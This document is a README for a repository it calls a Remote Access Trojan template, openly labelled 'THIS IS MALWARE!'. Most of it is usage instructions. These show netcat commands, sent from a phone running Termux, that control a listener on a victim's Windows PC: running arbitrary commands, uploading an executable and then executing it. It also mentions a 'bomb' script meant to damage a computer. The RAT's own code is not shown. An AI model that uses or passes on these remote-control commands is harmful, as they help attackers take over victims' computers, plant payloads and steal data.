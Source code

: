 # What is this?

This repo consists of essentially a Remote Access Trojan (RAT) template. It allows an attacker to remotely access and control a victim's computer(kinda), execute commands, upload files and execute them, and potentially steal sensitive data or deploy malware. THIS IS MALWARE!

---

## rat-v1
Description - This is a simple easily editable python script that uses remote execution using termux to execute commands on a windows desktop!

### How to use
On your phone using Termux, you can use `nc` (Netcat) to interact with the script:
* **Ping the script** (check if it's running):
  ```
  echo "ping" | nc {PC_IP_ADDRESS} 9999
  ```

* **Execute a command**:
  ```
  echo "exec <your_command_here>" | nc {PC_IP_ADDRESS} 9999
  ```
  
> NOTE: Replace {PC_IP_ADDRESS} with the IP address of your Windows PC. Make sure your firewall allows connections on port 9999.
---


## rat-v2
Description - This is the same as `bomb-v1` but you can now upload a file from your phone to your pc

### How to use
On your phone using Termux, you can use `nc` (Netcat) to interact with the script:
* **Ping the script** (check if it's running):
  ```
  echo "ping" | nc {PC_IP_ADDRESS} 9999
  ```

* **Execute a command**:
  ```
  echo "exec <your_command_here>" | nc {PC_IP_ADDRESS} 9999
  ```

* **Upload a file** to the Windows PC
  ```
  echo "upload your_file_name.exe" | nc {PC_IP_ADDRESS} 9999
  cat your_file_name.exe | nc {PC_IP_ADDRESS} 9999
  ```

* **Execute the uploaded file:**
  ```
  echo "exec your_file_name.exe" | nc {PC_IP_ADDRESS} 9999
  ```

> NOTE: Replace `your_file_name.exe` with the file you want to upload and `{PC_IP_ADDRESS}` with the IP address of your Windows PC.


---

# src/bomb.py
(this is an example on how you can make a "remote bomb" out of this script lol)

* this will destroy a pc(not literaly) if executed properly

---

# oth/

* other versions of the script(s) made in diffrent languages.

